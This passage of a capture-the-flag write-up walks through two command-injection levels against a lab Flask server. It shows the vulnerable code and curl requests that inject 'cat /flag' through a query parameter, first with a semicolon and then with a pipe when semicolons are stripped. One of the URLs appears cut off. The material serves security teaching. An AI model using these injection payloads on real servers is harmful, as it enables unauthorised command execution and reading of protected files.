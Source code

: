 ```python
        <b>Output of {command}:</b><br>
        <pre>{result}</pre>
        </body></html>
        """
```

2. noted the the user of the process is root

so the server has enough permission to read the flag

```
root         156  0.0  0.0 105512 26880 pts/0    S    16:48   0:00 /usr/bin/python -I -- /challenge/server
```

3. craft the http request that the server will also execute the command of `cat /flag`

```bash
curl challenge.localhost/problem?location=%7E%3Bcat+%2Ffla
```

http url encoding tool: https://www.url-encode-decode.com/

---

# 2

## Description

Many developers are aware of things like command injection, and try to prevent it. In this level, you may not use ;! Can you think of another way to command-inject? Recall what you learned in the Piping module of the Linux Luminarium...

## Solution

1. related server code

```
@app.route("/event", methods=["GET"])
def challenge():
    arg = flask.request.args.get("subdirectory", "/challenge").replace(";", "")
    command = f"ls -l {arg}"
```

2. let the server will `cat /flag` using pipe `|`

arg:

```
~ | cat /flag
```

http request: 

```
curl challenge.localhost/event?subdirectory=%7E+%7C+cat+%2Fflag
```

---